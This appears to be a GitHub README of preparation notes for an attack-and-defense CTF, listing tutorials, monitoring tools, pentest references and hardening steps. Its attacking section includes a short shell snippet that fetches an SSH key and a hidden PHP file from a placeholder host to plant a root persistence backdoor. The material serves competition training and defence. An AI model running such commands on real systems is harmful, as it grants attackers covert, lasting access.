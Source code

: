 # iHack Attack & Defense CTF
Please study and prepare :(

## Overview
- [How the Defcon Attack/Defense CTF 2018 Worked - LiveOverFlow](https://www.youtube.com/watch?v=RkaLyji9pNs)
- [HackTheBox - CyberMayhem by Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
- **IMPORTANT:** [Defcamp finals 2022: Feedback on our first Attack/Defense CTF](https://www.riskinsight-wavestone.com/en/2022/11/defcamp-finals-2022-feedback-on-our-first-attack-defense-ctf/)
- **VERY IMPORTANT:** [CISCO SECCON AD-CTF 2020](https://medium.com/csictf/cisco-seccon-2020-ad-ctf-2614b27f387a)

## Vuln Services
- [CJ2018 CTF](https://github.com/farisv/CJ2018-Final-CTF) [[Solution](https://rhamaa.github.io/post/2018/10/17/Cyber-Jawara-2018-Final-Web-Exploitation/)]
- [Vuln Service Example](https://github.com/oldeurope/rwthctf2012/tree/master/services)

## Network Monitor & Detection
### Tools
- **IMPORTANT:** [Caronte](https://github.com/eciavatta/caronte)
- [Cardinal](https://github.com/vidar-team/Cardinal)

### Strategy
- **IMPORTANT:** Capture PCAP and Replay Attack (TCPDump + Tshark)
- Parse event logs & `access.log` file
- Check established connection `netstat` & kill enemy shell
- Remove Backdoor
  - Hidden Files `.shell.php`
  - SSH Keys
  - Cronjobs
  - User Accounts

## Attacking
### Exploit Runner
- [CSE 545 F18: 4-16-18 "Attack-Defense CTF Prep](https://github.com/AchyuthaBharadwaj/PCTF)

### Strategy
- Plant Persistence Backdoor 

  ```
  # Persistence via SSH Keys
  mkdir /root/.ssh/
  chmod 600 /root/.ssh/
  curl IP:8000/key.pub >> /root/.ssh/authorized_keys
  chmod 600 /root/.ssh/authorized_keys
  curl IP:8000/home.php -o /var/www/html/.home.php
  ```
- Rust Scan > Nmap

### References
- [HackTricks](https://book.hacktricks.xyz/welcome/readme)
- [Pentest Everything](https://viperone.gitbook.io/pentest-everything/)
- [Pentester's Promiscuous Notebook](https://ppn.snovvcrash.rocks/)
- [Linux Persistence Technique](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)
- [Pentest Checklist](https://systemweakness.com/basic-pentesting-cheat-sheet-c43e1647c753)

## Patching
> Remember to backup before patching!
### Tools
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Joern](https://github.com/joernio/joern) [[Demo](https://www.youtube.com/watch?v=qtGRNb_2Khs)]
- [Snyk](https://github.com/snyk/) [[Demo](https://www.youtube.com/watch?v=tyL3Ouais1c)]

### Strategy
- Find misconfiguration on Linux Host using LSE
- Source Code Review
- Least Privilege (Access Control)
- Change Default Passwords
- Firewall Rule
- SECCOMP [[Demo](https://attackdefense.com/challengedetailsnoauth?cid=1826)]
- Hardening
  - Disable unsafe functions in `php.ini`

### References
- [ChatGPT](https://chat.openai.com/chat)
- [Vulnerable Code Snippets 1](https://github.com/snoopysecurity/Vulnerable-Code-Snippets)
- [Vulnerable Code Snippets 2](https://github.com/yeswehack/vulnerable-code-snippets)
